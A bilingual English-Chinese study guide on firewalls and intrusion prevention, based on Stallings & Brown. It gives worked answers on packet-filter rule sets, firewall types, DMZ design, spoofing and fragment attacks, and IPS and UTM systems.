(a) drop. (b) sdrop. (c) reject (TCP reset; for UDP an ICMP port unreachable). (d) the replace option. The rule becomes drop tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";): only the action changes, and Snort must run inline, in the packet path, so that it can discard packets.(a) drop。(b) sdrop。(c) reject（TCP 复位；对于 UDP，则返回 ICMP 端口不可达报文）。(d) replace 选项。规则改为 drop tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";)：仅动作部分发生变化，并且 Snort 必须以串接方式运行、位于数据包的传输路径上，才能丢弃数据包。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| NAT | Network address translation. A firewall can rewrite addresses, so that internal addresses are hidden网络地址转换。防火墙可以改写地址，从而隐藏内部地址 |
| NIST SP 800-41 | The standard that names the four policy criteria and the weaknesses of packet filters规定四项策略准则以及包过滤器弱点的标准 |
| Stealth mode隐身模式 | A personal firewall drops unsolicited packets, so that the host appears absent个人防火墙丢弃未经请求的数据包，使主机看起来像不存在一样 |
| Screening router屏蔽路由器 | One router with packet filtering. Typical for a small or home office一台带包过滤功能的路由器。常见于小型办公室或家庭办公室 |
| Screened host, dual-homed bastion, screened subnet屏蔽主机、双宿堡垒主机、屏蔽子网 | Older layouts. Screened subnet = DMZ between two filtering routers = double bastion inline较旧的布局。屏蔽子网 = 两台过滤路由器之间的 DMZ = 内联的双堡垒 |
| Overlapping fragment attack重叠分片攻击 | A later fragment overwrites the flags of an accepted first fragment. Dropping TCP fragments with offset 1 stops it后到的分片覆盖了已接受的首个分片的标志位。丢弃偏移量为 1 的 TCP 分片即可阻止该攻击 |
| SOCKS portSOCKS 端口 | The SOCKS server listens on TCP port 1080SOCKS 服务器监听 TCP 1080 端口 |
| Digital immune system数字免疫系统 | A hybrid IPS: sensors send alerts and malware copies to a central server, which correlates them; a protected sandbox system then finds the vulnerability, builds and tests a patch and sends it to the hosts一种混合式 IPS：传感器把告警和恶意软件副本发送到中央服务器进行关联；随后，受保护的沙箱系统找出漏洞、构建并测试补丁，再把补丁发送给各主机 |
| Flow data protection数据流保护 | A NIPS reassembles the payload of a flow and drops the packet and all later ones once the flow is maliciousNIPS 重组数据流的载荷，一旦数据流为恶意，就丢弃该数据包及之后的所有数据包 |
Exam-style questions考试题型练习
Q1. (Packet-filter design and trace, 14 marks) The network 10.0.0.0/24 has a public Web server 10.0.0.80. Policy: P1, internal hosts may browse external Web servers (TCP port 80); P2, outside hosts may connect to the company Web server on TCP port 80; P3, everything else is denied. The firewall is a stateless packet filter. (a) Write a rule set (direction, source and destination address and port, flag, action) with default discard (6). (b) Give the deciding rule and the action for each packet (5): (i) out, 10.0.0.5:40000 to 93.184.216.34:80, SYN; (ii) in, 93.184.216.34:80 to 10.0.0.5:40000, SYN+ACK; (iii) in, 203.0.113.9:6000 to 10.0.0.80:80, SYN; (iv) in, 203.0.113.9:80 to 10.0.0.5:3000, SYN; (v) in, 203.0.113.9:80 to 10.0.0.5:3000, ACK only. (c) Packet (v) passes. Explain why and which firewall type stops it (3).Q1.（包过滤器设计与手工演算，14 分）网络 10.0.0.0/24 中有一台公网 Web 服务器 10.0.0.80。策略如下：P1，内部主机可以浏览外部 Web 服务器（TCP 端口 80）；P2，外部主机可以连接公司的 Web 服务器（TCP 端口 80）；P3，其他一切均拒绝。防火墙为无状态包过滤器。(a) 编写一个规则集（方向、源和目的地址与端口、标志位、动作），默认丢弃（6 分）。(b) 给出下列各数据包的决定规则及动作（5 分）：(i) 出站，10.0.0.5:40000 到 93.184.216.34:80，SYN；(ii) 入站，93.184.216.34:80 到 10.0.0.5:40000，SYN+ACK；(iii) 入站，203.0.113.9:6000 到 10.0.0.80:80，SYN；(iv) 入站，203.0.113.9:80 到 10.0.0.5:3000，SYN；(v) 入站，203.0.113.9:80 到 10.0.0.5:3000，仅 ACK。(c) 数据包（v）会被放行。请解释原因，并指出哪种防火墙类型能够阻止它（3 分）。
Answer
(a)
| Rule规则 | Dir方向 | Src address源地址 | Src port源端口 | Dest address目的地址 | Dest port目的端口 | Flag标志位 | Action动作 |
|---|---|---|---|---|---|---|---|
| 1 | Out出站 | 10.0.0.0/24 | >1023 | Any任意 | 80 | – | Permit允许 |
| 2 | In入站 | Any任意 | 80 | 10.0.0.0/24 | >1023 | ACK | Permit允许 |
| 3 | In入站 | Any任意 | >1023 | 10.0.0.80 | 80 | – | Permit允许 |
| 4 | Out出站 | 10.0.0.80 | 80 | Any任意 | >1023 | ACK | Permit允许 |
| 5 | Either双向 | Any任意 | Any任意 | Any任意 | Any任意 | – | Deny拒绝 |
Rules 1 and 2 implement P1 (request and reply), rules 3 and 4 implement P2, rule 5 implements P3.规则 1 和规则 2 实现 P1（请求与应答），规则 3 和规则 4 实现 P2，规则 5 实现 P3。
(b) (i) rule 1, Permit. (ii) rule 2, Permit (ACK set). (iii) rule 3, Permit. (iv) No permit rule matches, because rule 2 needs ACK, so rule 5 denies it. (v) rule 2, Permit.(b) (i) 规则 1，允许。(ii) 规则 2，允许（ACK 已置位）。(iii) 规则 3，允许。(iv) 没有允许规则匹配，因为规则 2 要求 ACK，所以由规则 5 拒绝。(v) 规则 2，允许。
(c) The filter checks only that ACK is set, not that the segment belongs to a connection an inside host opened. The crafted packet passes; the host answers with a reset, which reveals that it is alive (ACK scanning). A stateful inspection firewall finds no connection-table entry for 203.0.113.9:80 and 10.0.0.5:3000 and drops it.(c) 过滤器只检查 ACK 是否置位，而不检查该报文段是否属于内部主机发起的连接。伪造的数据包会被放行；主机回应复位报文，从而暴露了其存活状态（ACK 扫描）。状态检测防火墙在连接状态表中找不到 203.0.113.9:80 与 10.0.0.5:3000 之间的条目，因而将其丢弃。
思路：请求和回包各一条规则，回包加源端口和 ACK；无状态过滤器只能检查“有没有 ACK”，不能确认连接真的存在。
Q2. (Firewall types, 10 marks) (a) Compare packet filter, stateful inspection, application-level gateway and circuit-level gateway: what each examines, how it treats the connection, one strength and one weakness (7). (b) Name the best type for: (i) allow HTTP GET but block POST and log which user made each request; (ii) admit inbound packets only if they belong to connections started inside; (iii) relay outbound connections of trusted users with little inspection overhead (3).Q2.（防火墙类型，10 分）(a) 比较包过滤器、状态检测、应用层网关和电路级网关：说明各自检查的对象、对连接的处理方式，并各给出一项优点和一项缺点（7 分）。(b) 指出下列各场景最适合的防火墙类型：(i) 允许 HTTP GET 请求，阻止 POST 请求，并记录每个请求来自哪个用户；(ii) 仅当入站数据包属于内部发起的连接时才予以放行；(iii) 以较小的检查开销中继可信用户的出站连接（3 分）。
Answer
(a) Packet filter: IP and TCP/UDP header fields of each packet; no state, packets pass through; simple and very fast, but blind to payload and context and open to spoofing. Stateful inspection: the same fields plus a table of established connections (and some application data); packets pass through; admits only replies to connections started inside and can follow sequence numbers, but needs table memory and sees little of the application. Application-level gateway: application protocol data and commands; two spliced connections and user authentication; the finest control and easy logging, but processing overhead and one proxy per application. Circuit-level gateway: connection setup only; two TCP connections with segments relayed; low overhead and user authentication (SOCKS), but no content inspection.(a) 包过滤器：检查每个数据包的 IP 及 TCP/UDP 首部字段；无状态，数据包直接转发；简单、速度非常快，但看不到载荷和上下文，且易受欺骗。状态检测：检查相同的字段，外加已建立连接的连接状态表（部分还检查应用数据）；数据包直接转发；只允许内部发起连接的应答通过，并可以跟踪序列号，但需要占用表项内存，对应用的了解很少。应用层网关：检查应用协议数据和命令；拼接两条连接，并支持用户认证；控制最为精细，便于记录日志，但处理开销大，且每种应用需要一个代理。电路级网关：只检查连接建立过程；两条 TCP 连接，并中继报文段；开销小，支持用户认证（SOCKS），但不检查内容。
(b) (i) Application-level gateway. (ii) Stateful inspection. (iii) Circuit-level gateway.(b) (i) 应用层网关。(ii) 状态检测。(iii) 电路级网关。
Q3. (DMZ and VPN, 12 marks) A company runs a public Web server, a mail server and a DNS server, has employee workstations and an HR database, and links two remote offices over the Internet. (a) Describe a double bastion inline layout and place each system (4). (b) List the three purposes of the internal firewall (3). (c) The Web server is compromised through an application flaw. What limits the damage (2)? (d) Where should the IPsec gateway for the remote offices go, and why not behind the firewall (3)?Q3.（DMZ 与 VPN，12 分）某公司运行一台公网 Web 服务器、一台邮件服务器和一台 DNS 服务器，拥有员工工作站和一个人力资源数据库，并通过互联网连接两个异地办事处。(a) 描述双堡垒串接式布局，并确定各系统的位置（4 分）。(b) 列出内部防火墙的三个用途（3 分）。(c) Web 服务器因应用缺陷而被攻陷。哪些因素限制了损害（2 分）？(d) 异地办事处的 IPsec 网关应放在哪里？为什么不能放在防火墙之后（3 分）？
Answer
(a) Internet, boundary router, external firewall, DMZ network, internal firewall, internal network. The Web, mail and DNS servers sit in the DMZ; workstations and the HR database sit in the internal network. The external firewall admits only the needed services to the DMZ and gives the internal network basic protection.(a) 依次为：互联网、边界路由器、外部防火墙、隔离区网络、内部防火墙、内部网络。Web、邮件和 DNS 服务器位于隔离区；工作站和人力资源数据库位于内部网络。外部防火墙只允许必需的服务访问隔离区，并为内部网络提供基本防护。
(b) The internal firewall (1) filters more stringently than the external one to protect enterprise servers and workstations from external attack; (2) protects the internal network from attacks launched from compromised DMZ systems (worms, rootkits, bots) and the DMZ from attacks launched inside; (3) separates parts of the internal network from each other, for example servers from workstations.(b) 内部防火墙的用途是：(1) 过滤比外部防火墙更严格，以保护企业服务器和工作站免受外部攻击；(2) 保护内部网络免受从已被攻陷的隔离区系统（蠕虫、rootkit、僵尸程序）发起的攻击，并保护隔离区免受从内部发起的攻击；(3) 将内部网络的各部分彼此隔离，例如服务器与工作站相互隔离。
(c) The internal firewall permits only the specific flows the DMZ servers need, so the compromised server cannot scan or connect freely to the workstations or the HR database. The external firewall limits what the DMZ can send out, and logging at both firewalls helps detect the intrusion.(c) 内部防火墙只允许隔离区服务器所需的特定流量通过，因此被攻陷的服务器无法随意扫描或连接工作站和人力资源数据库。外部防火墙限制隔离区可以向外发送的内容，并且两台防火墙的日志记录有助于发现入侵。
(d) Terminate IPsec on the firewall, so that decrypted traffic is filtered, logged and scanned. In a separate box behind the firewall the VPN traffic would pass the firewall encrypted, so the firewall could not apply filtering, access control, logging or virus scanning. The boundary router outside the firewall is less secure than the firewall.(d) 应将 IPsec 终止于防火墙，使解密后的流量得到过滤、记录日志并接受扫描。若在防火墙之后的独立设备上部署，VPN 流量将以加密形式穿过防火墙，防火墙便无法实施过滤、访问控制、日志记录或病毒扫描。位于防火墙之外的边界路由器，其安全性低于防火墙。
Q4. (Attacks on packet filters, 10 marks) (a) Describe IP address spoofing, source routing and the tiny fragment attack, and give one countermeasure for each (6). (b) A packet with source address 10.0.0.5 arrives on the external interface of a firewall that protects 10.0.0.0/24. Name the attack and write the rule that stops it (2). (c) Why is default discard preferred to default forward (2)?Q4.（针对包过滤器的攻击，10 分）(a) 描述 IP 地址欺骗、源路由和极小分片攻击，并为每种攻击各给出一项对策（6 分）。(b) 一个源地址为 10.0.0.5 的数据包到达了保护 10.0.0.0/24 的防火墙外部接口。请指出攻击类型，并写出能够阻止它的规则（2 分）。(c) 为什么默认丢弃优于默认转发（2 分）？
Answer
(a) Spoofing: an outside packet carries an internal source address, hoping that systems trusting internal hosts accept it; discard packets that arrive on an external interface with an inside source address. Source routing: the sender specifies the route to bypass checks that ignore the option; discard all packets that use it. Tiny fragment: a tiny first fragment holds only part of the TCP header, so flag-based rules cannot be applied, and the later fragments pass because the packet was accepted; require a minimum amount of the transport header in the first fragment and, if it is rejected, remember the packet and drop its later fragments.(a) IP 地址欺骗：外部数据包携带内部源地址，希望信任内部主机的系统接受它；丢弃从外部接口到达、却带有内部源地址的数据包。源路由：发送方指定路由，以绕过忽略该选项的检查；丢弃所有使用源路由的数据包。极小分片：极小的首分片仅包含部分 TCP 首部，因此无法应用基于标志位的规则，而后续分片因首分片已被接受而随之通过；要求首分片中包含最少量的传输层首部，若被拒绝，则记住该数据包，并丢弃其后续分片。
(b) It is IP address spoofing. Rule 1: direction In on the external interface, source 10.0.0.0/24, destination any, action Deny, placed above every permit rule.(b) 这是 IP 地址欺骗。规则 1：方向为入站，位于外部接口，源地址为 10.0.0.0/24，目的地址任意，动作为拒绝，并放在所有允许规则之上。
(c) With default discard everything is blocked until it is expressly permitted, so unknown services and attacks are blocked automatically. With default forward the administrator must react to every new threat, so it is not recommended.(c) 采用默认丢弃时，一切流量在未被明确允许之前都会被阻断，因此未知的服务和攻击会被自动阻断。采用默认转发时，管理员必须对每一种新威胁作出反应，因此不推荐。
Q5. (IPS and UTM, 10 marks) (a) Define an IPS and say how it differs from an IDS and from a firewall (3). (b) Compare HIPS and NIPS on location, what they see and what they can do (3). (c) List the five NIPS detection methods and give one weakness of pattern matching and one of statistical anomaly detection (2). (d) What is a UTM appliance and what is its main drawback (2)?Q5.（IPS 与 UTM，10 分）(a) 给出 IPS 的定义，并说明它与 IDS 及防火墙的区别（3 分）。(b) 从部署位置、所能看到的内容以及所能执行的操作几个方面，比较 HIPS 与 NIPS（3 分）。(c) 列出 NIPS 的五种检测方法，并分别给出模式匹配和统计异常检测各一项缺点（2 分）。(d) 什么是 UTM 设备？它的主要缺点是什么（2 分）？
Answer
(a) An IPS is an IDS extended with the ability to block or prevent detected malicious activity, by modifying or blocking packets or system calls. An IDS only detects and alerts, whereas an IPS acts, inline in the network or in the host. A firewall decides by policy rules on what traffic is permitted; an IPS decides with IDS algorithms (signature, heuristic, anomaly) on whether the traffic or behaviour is malicious.(a) IPS 是一种扩展了阻断能力的 IDS，能够通过修改或阻断数据包或系统调用，阻止已检测到的恶意活动。IDS 只负责检测并告警，而 IPS 则在网络中或主机上以串接方式采取行动。防火墙依据策略规则决定允许哪些流量；IPS 则利用 IDS 算法（特征码、启发式、异常）判断流量或行为是否恶意。
(b) HIPS runs on the host and sees system calls, file system access, registry settings and host input/output; it detects privilege escalation, buffer overflows and modification of system resources, and can sandbox mobile code. NIPS is an inline NIDS on the network and sees packets and reassembled flows; it can drop packets and tear down TCP connections. One NIPS protects many hosts but cannot see inside them.(b) HIPS 运行于主机上，可以看到系统调用、文件系统访问、注册表设置以及主机的输入输出；它能够检测权限提升、缓冲区溢出以及对系统资源的修改，并可以对移动代码进行沙箱隔离。NIPS 是部署于网络中的串接式 NIDS，能够看到数据包和重组后的流；它可以丢弃数据包并拆除 TCP 连接。一台 NIPS 可以保护众多主机，但无法看到主机内部。
(c) Pattern matching, stateful matching, protocol anomaly, traffic anomaly and statistical anomaly. Pattern matching misses new or modified attacks that have no signature. Statistical anomaly detection needs a baseline and raises false alarms when normal behaviour changes.(c) 模式匹配、状态匹配、协议异常、流量异常和统计异常。模式匹配无法识别没有特征码的新攻击或已变形的攻击。统计异常检测需要基线，并且在正常行为发生变化时会产生误报。
(d) A UTM appliance integrates firewalling, intrusion detection and prevention and gateway antivirus (often also VPN and antispam) in one box. Its main drawback is performance, throughput and latency: typical throughput loss is about 50%.(d) UTM 设备将防火墙、入侵检测与防御以及网关杀毒功能（通常还包括 VPN 和反垃圾邮件）集成于一台设备中。其主要缺点在于性能，包括吞吐量和延迟：典型的吞吐量损失约为 50%。
Textbook exercises课后习题
Textbook exercises with answers: 19 questions教材习题及答案，共 19 题，点击展开
E1. (Review Question 9.1, Stallings & Brown) List three design goals for a firewall.E1.（复习题 9.1，Stallings & Brown）列出防火墙的三个设计目标。
Answer
- All traffic between the inside and the outside must pass through the firewall. The firewall is a single choke point, achieved by physically blocking every other path into the local network.内部与外部之间的所有流量都必须经过防火墙。防火墙是唯一的检查点，做法是物理上堵住通往内网的其他所有路径。
- Only traffic authorized by the local security policy may pass. The policy lists the allowed address ranges, protocols, applications and content types.只有本地安全策略授权的流量才能通过。策略列出允许的地址范围、协议、应用和内容类型。
- The firewall itself must be immune to penetration. It runs on a hardened system with a secured operating system, because a compromised firewall gives no protection.防火墙本身必须能抵御渗透。它运行在经过加固、安全配置的操作系统上，因为一旦防火墙被攻破，就起不到任何保护作用。
These three goals mean the firewall must be unavoidable, selective and trustworthy.这三个目标意味着防火墙必须做到不可绕过、有选择性、可信赖。
思路：必经之路、只放行授权流量、自身要坚固。
E2. (Review Question 9.2, Stallings & Brown) List four characteristics used by firewalls to control access and enforce a security policy.E2.（复习题 9.2，Stallings & Brown）列出防火墙用来控制访问和执行安全策略的四类特征。
Answer
A firewall access policy can filter on four kinds of characteristics.防火墙访问策略可以基于四类特征进行过滤。
- IP address and protocol values: source and destination addresses and ports, direction (inbound or outbound) and other network and transport layer fields. Packet filters and stateful inspection firewalls use these.IP 地址和协议值：源和目的地址与端口、方向（入站或出站），以及其他网络层和传输层字段。包过滤器和状态检测防火墙使用这些特征。
- Application protocol: the content of an application protocol such as SMTP or HTTP, for example spam checks or allowed sites only. Application-level gateways use this.应用协议：SMTP 或 HTTP 等应用协议的内容，例如垃圾邮件检查，或只允许访问指定网站。应用级网关使用这一特征。
- User identity: access depends on who the (usually internal) user is, proved by some strong authentication.用户身份：访问取决于（通常是内部）用户是谁，由某种强认证来证明。
- Network activity: the time of the request, the rate of requests (to detect scanning) or other activity patterns.网络活动：请求的时间、请求速率（用于发现扫描行为），或其他活动模式。
思路：地址/协议、应用内容、用户身份、网络活动四类。
E3. (Review Question 9.3, Stallings & Brown) What information is used by a typical packet filtering firewall?E3.（复习题 9.3，Stallings & Brown）典型的包过滤防火墙使用哪些信息？
Answer
A packet filtering firewall decides on each packet separately, using only the header fields of the IP packet and its transport header:包过滤防火墙仅根据 IP 数据包及其传输层首部中的字段，对每个数据包单独做决定：
- source IP address and destination IP address;源 IP 地址和目的 IP 地址；
- source and destination transport-layer address (TCP or UDP port number, or ICMP type);源和目的传输层地址（TCP 或 UDP 端口号，或 ICMP 类型）；
- the IP protocol field, which names the transport protocol (TCP, UDP, ICMP);IP 协议字段，表明传输层协议（TCP、UDP、ICMP）；
- the interface on which the packet arrived or leaves, which gives the direction (in or out);数据包到达或离开时所经过的接口，它决定了方向（入或出）；
- sometimes TCP flags such as ACK, and IP options.有时还包括 TCP 标志位（如 ACK）以及 IP 选项。
The rules are checked in order and the first match decides to forward or discard the packet. A default policy covers packets that match no rule. The filter does not look at the payload.规则按顺序检查，第一条匹配的规则决定转发或丢弃该数据包。默认策略适用于不匹配任何规则的数据包。过滤器不检查载荷。
E4. (Review Question 9.4, Stallings & Brown) What are some weaknesses of a packet filtering firewall?E4.（复习题 9.4，Stallings & Brown）包过滤防火墙有哪些弱点？
Answer
- It does not examine upper-layer data, so it cannot stop attacks that use application-specific vulnerabilities or commands. If an application is allowed, every function of it is allowed.它不检查上层数据，因此无法阻止利用特定应用漏洞或命令的攻击。一旦某个应用被允许，它的所有功能也就都被允许了。
- Its logs are limited to what it uses for decisions (addresses, ports, traffic type).它的日志只限于决策所用的信息（地址、端口、流量类型）。
- It usually does not support advanced user authentication.它通常不支持高级用户认证。
- It is vulnerable to attacks on TCP/IP itself, such as IP address spoofing, and to fragment attacks (tiny fragments, overlapping fragments).它容易受到针对 TCP/IP 本身的攻击，例如 IP 地址欺骗，以及分片攻击（微小分片、重叠分片）。
- With so few variables in a rule, it is easy to configure it wrongly and allow traffic that policy forbids.规则中的变量很少，因此很容易配置错误，从而允许策略禁止的流量通过。
Its advantages are simplicity, speed and transparency to users.它的优点是简单、速度快，并且对用户透明。
E5. (Review Question 9.5, Stallings & Brown) What is the difference between a packet filtering firewall and a stateful inspection firewall?E5.（复习题 9.5，Stallings & Brown）包过滤防火墙与状态检测防火墙有什么区别？
Answer
A packet filtering firewall treats every packet in isolation and uses a static rule list on header fields. It cannot tell whether a packet belongs to a connection that an inside host started. To let replies in, the rules must allow all traffic to high ports (above 1023), which is a large hole.包过滤防火墙把每个数据包孤立地看待，使用静态的规则列表检查首部字段。它无法判断某个数据包是否属于内部主机发起的连接。为了让应答通过，规则必须允许访问所有大于 1023 的高端口，这是一个很大的漏洞。
A stateful inspection firewall examines the same header fields but also keeps a table of the TCP connections that are open (addresses, ports, sometimes sequence numbers). It allows an inbound packet only if it matches an existing entry, so only replies to connections started from inside get through. Some stateful firewalls also inspect limited application data for protocols such as FTP to track related connections.状态检测防火墙同样检查这些首部字段，但它还维护一张已打开 TCP 连接的表（包括地址、端口，有时还有序列号）。只有入站数据包与某个已有表项匹配时才允许通过，因此只有对内部发起连接的应答才能进来。有些状态检测防火墙还会检查 FTP 等协议的有限应用数据，以跟踪相关连接。
E6. (Review Question 9.6, Stallings & Brown) What is an application-level gateway?E6.（复习题 9.6，Stallings & Brown）什么是应用级网关？
Answer
An application-level gateway (application proxy) is a firewall that acts as a relay of application-level traffic. The user connects to the gateway with a TCP/IP application such as a browser or FTP client and gives the name of the remote host and valid authentication data. The gateway then opens a separate connection to the application on the remote host and relays the application data between the two endpoints.应用级网关（应用代理）是一种充当应用层流量中继的防火墙。用户用浏览器或 FTP 客户端等 TCP/IP 应用连接网关，并给出远程主机名和有效的认证数据。随后网关与远程主机上的应用另外建立一条连接，并在两个端点之间中继应用数据。
Because it understands the application protocol, it can allow only specific features and log in detail, and it needs a proxy for each supported application: if no proxy code exists for an application, that service is blocked. It is more secure than a packet filter, but it adds processing overhead for every connection.由于它理解应用协议，因此可以只允许特定功能，并记录详细日志。它要求为每种受支持的应用配置一个代理：如果某个应用没有代理代码，该服务就会被阻断。它比包过滤器更安全，但每个连接都会增加处理开销。
E7. (Review Question 9.7, Stallings & Brown) What is a circuit-level gateway?E7.（复习题 9.7，Stallings & Brown）什么是电路级网关？
Answer
A circuit-level gateway (circuit-level proxy) is a firewall that does not allow an end-to-end TCP connection. It sets up two TCP connections: one between itself and a user on an inside host and one between itself and a user on an outside host. After both are established, it relays TCP segments from one connection to the other without examining their contents.电路级网关（电路级代理）是一种不允许端到端 TCP 连接的防火墙。它建立两条 TCP 连接：一条位于自身与内部主机上的用户之间，另一条位于自身与外部主机上的用户之间。两条连接都建立后，它把一条连接的 TCP 报文段中继到另一条连接，而不检查其内容。
Its security function is to decide which connections are allowed (who may talk to whom), usually after authenticating the inside user. It is cheaper than an application-level gateway, because it needs no proxy per application, but it cannot filter application content. It can be a stand-alone system or a function inside an application-level gateway.它的安全功能是决定允许哪些连接（谁可以与谁通信），通常在对内部用户进行认证之后。它比应用级网关便宜，因为不需要为每个应用配置代理，但无法过滤应用内容。它既可以是独立系统，也可以是应用级网关的一项功能。
E8. (Review Question 9.8, Stallings & Brown) What are the differences among the four firewall types: packet filtering firewall, stateful inspection firewall, application-level gateway and circuit-level gateway?E8.（复习题 9.8，Stallings & Brown）四种防火墙类型（包过滤防火墙、状态检测防火墙、应用级网关和电路级网关）有什么区别？
Answer
| Type类型 | Works at工作层次 | What it examines检查内容 | Connection handling连接处理 |
|---|---|---|---|
| Packet filtering包过滤 | Network and transport layer网络层和传输层 | IP and TCP/UDP header fields of each packet每个数据包的 IP 和 TCP/UDP 首部字段 | None; each packet is judged alone无；每个数据包单独判断 |
| Stateful inspection状态检测 | Network and transport layer, some application data网络层和传输层，部分应用数据 | Same fields plus a table of open connections (sometimes sequence numbers)同样的字段，外加一张已打开连接的表（有时包括序列号） | Allows only packets that match a known connection只允许与已知连接相符的数据包 |
| Application-level gateway应用层网关 | Application layer应用层 | Application protocol commands and data应用协议的命令和数据 | Two connections joined by a proxy per application; user authentication每个应用由一个代理连接两段连接；用户认证 |
| Circuit-level gateway电路级网关 | Transport layer传输层 | Only which connection is requested只判断请求的是哪条连接 | Two TCP connections joined by a relay that does not read the content由一个不读取内容的中继连接两条 TCP 连接 |
Moving down the table gives more inspection and more security, but also more processing per packet.沿表格往下看，检查越深，安全性越高，但每个数据包的处理开销也越大。
E9. (Review Question 9.9, Stallings & Brown) What are the common characteristics of a bastion host?E9.（复习题 9.9，Stallings & Brown）堡垒主机有哪些常见特征？
Answer
A bastion host is a system that the administrator identifies as a critical strong point of the network's security. It typically hosts application-level or circuit-level gateways. Its common characteristics are:堡垒主机是管理员认定为网络安全关键强点的系统。它通常承载应用级网关或电路级网关。其常见特征如下：
- it runs a secure, hardened version of its operating system;它运行安全、加固版本的操作系统；
- only essential services are installed, for example proxies for DNS, FTP, HTTP and SMTP;只安装必要的服务，例如 DNS、FTP、HTTP 和 SMTP 的代理；
- it may require additional authentication before a user can use a proxy, and each proxy may have its own authentication;用户在使用代理之前可能需要额外认证，每个代理也可以有自己的认证；
- each proxy supports only a subset of the commands of the application and only specific hosts;每个代理只支持该应用的部分命令，并且只支持特定主机；
- each proxy logs all traffic, connections and their duration, which is vital for detecting intruders;每个代理记录所有流量、连接及其持续时间，这对发现入侵者至关重要；
- each proxy is small, independent of the others, runs as a non-privileged user, and does no disk access except reading its configuration, so executable areas can be read-only.每个代理体积小，相互独立，以非特权用户身份运行，除读取配置外不访问磁盘，因此可执行区域可以设为只读。
E10. (Review Question 9.10, Stallings & Brown) Why is it useful to have host-based firewalls?E10.（复习题 9.10，Stallings & Brown）为什么需要基于主机的防火墙？
Answer
A host-based firewall is a software module that filters the packets of one host (a server, a workstation or a laptop). It is useful for three reasons.基于主机的防火墙是一个软件模块，过滤单台主机（服务器、工作站或笔记本电脑）的数据包。它有三个用处。
- Filtering rules can be tailored to the host and its role, for example different filters for a web server and a database server.过滤规则可以根据主机及其角色定制，例如 Web 服务器和数据库服务器使用不同的过滤规则。
- Protection is independent of topology: both internal and external attacks must pass through it, and a laptop is still protected when it is outside the corporate network.保护与拓扑无关：内部和外部攻击都必须经过它，即使笔记本电脑在公司网络之外，也仍然受到保护。
- Together with the perimeter firewall it gives an extra layer of defense in depth. A new server can be added with its own firewall without changing the network firewall.与边界防火墙一起，它提供了额外的纵深防御层。添加新服务器时，可以为它配置自己的防火墙，而无需改动网络防火墙。
E11. (Review Question 9.11, Stallings & Brown) What is a DMZ network and what types of systems would you expect to find on such networks?E11.（复习题 9.11，Stallings & Brown）什么是 DMZ 网络？这类网络上通常有哪些系统？
Answer
A DMZ (demilitarized zone) is a network segment between the external firewall and the internal firewall (or on a separate interface of the firewall). The external firewall gives limited access from the Internet to it, and the internal firewall protects the internal network from it.隔离区（DMZ）是位于外部防火墙与内部防火墙之间（或位于防火墙的独立接口上）的网段。外部防火墙只允许互联网有限地访问它，内部防火墙则保护内部网络免受它的威胁。
It holds the systems that must be reachable from outside, because they are more exposed to attack than internal systems. Typical examples are web servers, mail servers and mail gateways, DNS servers, and proxy servers. If one of them is compromised, the intruder is still outside the internal firewall.DMZ 放置的是必须能从外部访问的系统，因为它们比内部系统更容易受到攻击。典型例子包括 Web 服务器、邮件服务器和邮件网关、DNS 服务器以及代理服务器。即使其中某台被攻破，入侵者仍然在内部防火墙之外。
E12. (Review Question 9.12, Stallings & Brown) What is the difference between an internal and an external firewall?E12.（复习题 9.12，Stallings & Brown）内部防火墙与外部防火墙有什么区别？
Answer
An external firewall sits at the edge of the whole site, between the Internet and the DMZ. It has a relatively open policy: it lets outside users reach the public servers in the DMZ and does basic filtering to protect the DMZ and the inside.外部防火墙位于整个站点的边缘，处于互联网与 DMZ 之间。它的策略相对开放：允许外部用户访问 DMZ 中的公共服务器，并进行基本过滤，以保护 DMZ 和内部网络。
An internal firewall sits between the DMZ and the internal network. It has a stricter policy: it protects the internal network from the DMZ systems if they are compromised, and from the Internet if the external firewall fails. It also adds extra filtering of the traffic between the DMZ servers and internal hosts, for example by allowing only the needed ports. Using two firewalls gives defense in depth and a second chance to stop an attack.内部防火墙位于 DMZ 与内部网络之间。它的策略更严格：如果 DMZ 系统被攻破，它保护内部网络免受其威胁；如果外部防火墙失效，它保护内部网络免受互联网的威胁。它还对 DMZ 服务器与内部主机之间的流量做额外过滤，例如只允许所需的端口。使用两道防火墙可以提供纵深防御，并多一次阻止攻击的机会。
E13. (Review Question 9.13, Stallings & Brown) How does an IPS differ from a firewall?E13.（复习题 9.13，Stallings & Brown）IPS 与防火墙有什么不同？
Answer
A firewall filters traffic by static policy rules: addresses, ports, protocols, connection state, and for gateways application commands. An intrusion prevention system (IPS) is an extension of an IDS: it uses IDS techniques (signature or heuristic detection and anomaly detection) to decide whether traffic or behavior is malicious, and then blocks it. A network IPS is an inline NIDS that can discard packets and tear down TCP connections.防火墙根据静态策略规则过滤流量，规则依据包括地址、端口、协议、连接状态，对于网关还包括应用命令。入侵防御系统（IPS）是 IDS 的扩展：它使用 IDS 技术（特征或启发式检测以及异常检测）判断流量或行为是否恶意，然后予以阻断。网络 IPS 是一种内联的 NIDS，可以丢弃数据包并拆除 TCP 连接。
The IPS also uses methods a firewall normally does not, such as flow data protection (reassembling the payload of a whole flow and filtering it) and anomaly detection. Whether a network IPS is a separate product or a new kind of firewall is partly a matter of terminology.IPS 还使用防火墙通常不用的方法，例如数据流保护（重组整个数据流的载荷并对其过滤）和异常检测。网络 IPS 是一个独立产品，还是一种新型防火墙，在一定程度上只是术语问题。
E14. (Review Question 9.14, Stallings & Brown) What are the different places an IPS can be based?E14.（复习题 9.14，Stallings & Brown）IPS 可以部署在哪些不同位置？
Answer
- Host-based IPS (HIPS): software on a host that watches system calls, file system and registry access, input and output, and application traffic. It can also run suspect code in a sandbox. It protects the endpoint, and can see what is encrypted.基于主机的 IPS（HIPS）：运行在主机上的软件，监视系统调用、文件系统和注册表访问、输入输出以及应用流量。它还可以在沙箱中运行可疑代码。它保护端点，并且能看到被加密的内容。
- Network-based IPS (NIPS): an inline NIDS in the network path that examines packets and flows and can drop packets or reset connections.基于网络的 IPS（NIPS）：处于网络路径上的内联 NIDS，它检查数据包和数据流，可以丢弃数据包或复位连接。
- Distributed or hybrid IPS: many host and network sensors send data to a central analysis system, which correlates it and returns updated signatures and behavior patterns to all coordinated systems.分布式或混合式 IPS：大量主机和网络传感器把数据发送到一个中央分析系统，由它进行关联，并把更新后的特征和行为模式返回给所有协同工作的系统。
